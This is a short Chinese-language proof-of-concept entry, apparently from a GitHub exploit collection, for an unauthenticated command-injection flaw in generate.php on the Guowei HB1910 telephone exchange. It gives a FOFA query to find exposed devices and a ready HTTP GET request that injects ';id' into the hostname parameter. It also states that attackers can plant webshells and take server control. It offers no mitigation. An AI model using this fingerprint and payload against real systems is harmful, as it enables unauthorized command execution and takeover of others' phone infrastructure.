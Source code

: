 # 国威HB1910数字程控电话交换机generate.php未授权RCE漏洞

国威HB1910数字程控电话交换机 generate.php 接口存在远程命令执行漏洞，未经身份验证的恶意攻击者可以利用该漏洞远程执行任意命令，写入webshell后门文件，获取服务器权限。

## fofa

```javascript
body="themes/tenant/css/login.css"
```

## fofa

```javascript
GET /modules/ping/generate.php?send=Ping&hostname=;id HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

![image-20241219145844556](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412191458610.png)